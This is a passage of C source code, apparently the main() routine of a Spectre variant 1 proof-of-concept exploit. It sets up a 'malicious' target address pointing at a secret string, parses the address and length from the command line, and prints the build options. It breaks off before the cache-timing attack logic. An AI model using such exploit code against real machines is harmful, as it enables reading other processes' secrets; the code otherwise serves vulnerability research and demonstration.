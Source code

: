 ``` c
*  1: Cache hit threshold (int)
*  2: Malicious address start (size_t)
*  3: Malicious address count (int)
*/
int main(int argc,
  const char * * argv) {
  
  /* Default to a cache hit threshold of 80 */
  int cache_hit_threshold = 80;

  /* Default for malicious_x is the secret string address */
  size_t malicious_x = (size_t)(secret - (char * ) array1);
  
  /* Default addresses to read is 40 (which is the length of the secret string) */
  int len = 40;
  
  int score[2];
  uint8_t value[2];
  int i;

  #ifdef NOCLFLUSH
  for (i = 0; i < (int)sizeof(cache_flush_array); i++) {
    cache_flush_array[i] = 1;
  }
  #endif
  
  for (i = 0; i < (int)sizeof(array2); i++) {
    array2[i] = 1; /* write to array2 so in RAM not copy-on-write zero pages */
  }

  /* Parse the cache_hit_threshold from the first command line argument.
     (OPTIONAL) */
  if (argc >= 2) {
    sscanf(argv[1], "%d", &cache_hit_threshold);
  }

  /* Parse the malicious x address and length from the second and third
     command line argument. (OPTIONAL) */
  if (argc >= 4) {
    sscanf(argv[2], "%p", (void * * )( &malicious_x));

    /* Convert input value into a pointer */
    malicious_x -= (size_t) array1;

    sscanf(argv[3], "%d", &len);
  }

  /* Print git commit hash */
  #ifdef GIT_COMMIT_HASH
    printf("Version: commit " GIT_COMMIT_HASH "\n");
  #endif
  
  /* Print cache hit threshold */
  printf("Using a cache hit threshold of %d.\n", cache_hit_threshold);
  
  /* Print build configuration */
  printf("Build: ");
  #ifndef NORDTSCP
    printf("RDTSCP_SUPPORTED ");
  #else
    printf("RDTSCP_NOT_SUPPORTED ");
  #endif
  #ifndef NOMFENCE
```